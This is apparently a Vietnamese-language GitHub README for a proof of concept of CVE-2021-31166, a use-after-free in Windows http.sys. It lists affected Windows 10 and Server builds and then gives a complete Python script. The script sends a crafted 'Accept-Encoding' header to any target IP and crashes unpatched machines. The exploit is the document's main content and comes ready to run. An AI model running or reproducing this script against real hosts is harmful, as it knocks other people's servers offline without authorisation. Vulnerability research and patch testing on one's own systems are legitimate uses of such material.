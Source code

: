 ```yaml
---
title: CVE-2021-31166
date: 16/6/2021
layout: single
--- 
```

[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

---


## Mô Tả 

Đây là bằng chứng về khái niệm cho CVE-2021-31166 ("Lỗ hổng thực thi mã từ xa của ngăn xếp giao thức HTTP"), một điểm truy cập sử dụng sau khi miễn phí trong `http.sys` được Microsoft vá vào tháng 5 năm 2021.

Theo như tôi biết, nó chỉ có thể kích hoạt chương trình bị lỗi, hãy sử dụng nó một cách thận trọng.

--- 
## Các nền tảng bị ảnh hưởng 
+ Windows Server, version 20H2 (Server Core Installation)

+ Windows 10 Version 20H2 for ARM64-based Systems

+ Windows 10 Version 20H2 for 32-bit Systems

+ Windows 10 Version 20H2 for x64-based Systems

+ Windows Server, version 2004 (Server Core installation)

+ Windows 10 Version 2004 for x64-based Systems

+ Windows 10 Version 2004 for ARM64-based Systems

+ Windows 10 Version 2004 for 32-bit Systems

# Demo
![demo](https://raw.githubusercontent.com/0vercl0k/CVE-2021-31166/main/pics/trigger.gif)
## Python

---
```python 
# python file.py --target=ip
import requests
import argparse

def main():
    parser = argparse.ArgumentParser('PoC for CVE-2021-31166: remote UAF in HTTP.sys')
    parser.add_argument('--target', required = True)
    args = parser.parse_args()
    r = requests.get(f'http://{args.target}/', headers = {
        'Accept-Encoding': 'doar-e, ftw, imo, ,',
    })
    print(r)

main()

```

---

## Thanks :D
